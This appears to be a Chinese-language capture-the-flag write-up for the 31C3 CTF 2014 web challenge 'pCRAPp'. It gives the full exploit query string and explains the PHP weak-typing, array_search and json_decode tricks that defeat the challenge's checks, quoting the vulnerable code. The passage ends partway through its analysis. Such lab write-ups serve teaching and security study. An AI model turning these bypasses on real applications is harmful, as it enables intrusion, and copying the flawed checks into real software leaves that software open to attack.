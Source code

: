 # 31C3 CTF web关writeup

0x00 背景
=======

* * *

31c3 CTF 还是很人性化的，比赛结束了之后还可以玩。看题解做出了当时不会做的题目，写了一个writeup。

英文的题解可以看这里https://github.com/ctfs/write-ups/tree/master/31c3-ctf-2014/web

0x01 pCRAPp
===========

* * *

> PHP is nasty crappy sometimes, just pwn it http://188.40.18.69/

这题需要好多php技巧组合起来。过关需要这样提交。

```
http://188.40.18.69/pCRAPp.php?a={%22a1%22:%221337a%22,%22a2%22:[[1],1,2,3,0]}&b=0001&c[0]=0031c3&c[1][]=1111&d=%00 

```

![enter image description here](http://drops.javaweb.org/uploads/images/1552d63ffb5bab6584f296f3ab3a7c28b788abd5.jpg)

逐步分析一下每个知识点，其实很多技巧在http://drops.wooyun.org/tips/4483这篇文章有讲到。

这里用到了PHP弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval再比。

```
is_numeric(@$a["a1"])?die("nope"):NULL;    
if(@$a["a1"]){
        ($a["a1"]>1336)?$v1=1:NULL;    
}

```

这里也利用了相同的原理，array_search 会使用'ctf'和array中的每个值作比较，而且intval('ctf')==0.

```
if(is_array(@$a["a2"])){
        if(count($a["a2"])!==5 OR !is_array($a["a2"][0])) die("nope");
        $pos = array_search("ctf", $a["a2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["a2"] as $key=>$val){
            $val==="ctf"?die("nope"):NULL;
        }
        $v2=1;
    }

```

这里用到了一个BUG，http://blog.51yip.com/php/934.html。 在windows下 1.1.1 这种构造也会报错。

```
if(preg_match("/^([0-9]+\.?[0-9]+)+$/",@$_GET['b'])){
    $b=json_decode(@$_GET['b']);
    if($var = $b === NULL){
        ($var===true)?$v3=1:NULL;
    }
} 

```
